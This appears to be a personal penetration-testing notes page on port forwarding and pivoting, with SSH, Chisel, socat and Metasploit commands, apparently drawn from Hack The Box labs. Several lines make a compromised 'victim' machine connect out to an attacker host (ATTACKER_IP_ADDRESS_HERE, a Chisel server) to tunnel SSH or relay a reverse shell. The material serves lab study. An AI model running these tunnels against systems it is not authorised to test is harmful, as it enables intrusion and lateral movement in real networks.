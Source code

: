 ```yaml
---
description: Port Forwarding and Pivoting
---
```


# Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

### Same Machine Redirection

You can use socat for redirecting a port to another port on the same machine.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

### **Access Remote Port Through Local Port**

{% embed url="https://book.hacktricks.xyz/tunneling-and-port-forwarding#remote-port-2-port" %}

**Warning**: For some strange reason, when I used this to forward a web port, then I was able to do curl requests to this, but not gobuster or wfuzz.

```
# On attacker's machine
# Redirect port 2222 to port 443 in localhost
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# On victim machine
# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
while true; do socat TCP4:ATTACKER_IP_ADDRESS_HERE:443 TCP4:127.0.0.1:22 ; done 
```

After following the above example, your port 2222 will be forwarded to a victim's port 22. So you can SSH to the victim like this:

```
ssh localhost -p 2222
```

## Meterpreter Autorouting

{% embed url="https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html" %}
Autoroute documentation
{% endembed %}

Use autoroute to automatically route traffic to a specific host

Set up a socks proxy

```
use auxiliary/server/socks_proxy
run
```

Then set up proxychains by editing `/etc/proxychains.conf`. Add the socks5 proxy line under  `[ProxyList]`(if there is already a ProxyList, add the line under the existing ProxyList):

```
[ProxyList]
socks5 127.0.0.1 1080
```

In metasploit, set up autorouting

```
use multi/manage/autoroute
set cmd autoadd
set session SESSION_NUMBER_HERE # Has to be meterpreter I think
set subnet NETWORK_IP_ADDRESS_HERE
set netmask NETMASK_HERE
run
```

After that is done, you can run metasploit tools against the selected host. For example, `scanner/portscan/tcp` (the socks proxy part wasn't actually needed for this).

&#x20;But you want to reach the host using non-metasploit tools, too. To run nmap and other tools against hosts in the chosen subnet, use proxychains. For example, let's say you chose the subnet 172.17.0.0, and you want to scan the host at 172.17.0.1:

```
proxychains -q nmap -A -v 172.17.0.1
```

**Warning: I didn't actually get the proxychains part to work on the OpenSource HTB machine, unfortunately.**

## Meterpreter Port Forwarding

Portfwd is a command you can use for port forwarding on meterpreter

{% embed url="https://www.offensive-security.com/metasploit-unleashed/portfwd/" %}

## Pivoting Cheat Sheet

In-depth guide on different scenarios (ssh, reverse, tunnelling, etc):

[https://artkond.com/2017/03/23/pivoting-guide/](https://artkond.com/2017/03/23/pivoting-guide/)\
